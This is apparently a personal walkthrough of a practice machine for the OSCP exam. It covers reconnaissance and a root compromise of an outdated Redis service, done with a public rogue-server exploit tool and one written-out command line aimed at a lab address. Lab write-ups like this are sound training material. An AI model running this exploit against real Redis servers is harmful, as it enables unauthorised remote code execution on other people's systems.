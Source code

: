 # Wombo Walkthrough
Name: Wombo
Date: 14/10/2022
Difficulty:  Easy
Goals:  OSCP - just bang out one quick machine
Learnt: Must google more exploits

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Sitemap: http://localhost:4567/sitemap.xml

The rabbit holes are everywhere for this box.
![](apidir8080.png) 

The Api uses localhost on inaccesssible port
![](localhost4567-api-usage.png)  

Weird false positives
![](nikto8080.png)

![](mongoroot.png)  

![](fileuploadforpic.png)


## Exploit && Foothold && PrivEsc

We can create a redis rogue server as redis is < v=5.0.5
https://github.com/n0b0dyCN/redis-rogue-server
   
```
python3 redis-rogue-server.py --rhost 192.168.125.69 --lport 6379 --lhost <address>  --lport 6379
```

![](rogueredisworked.png)

![](root.png)
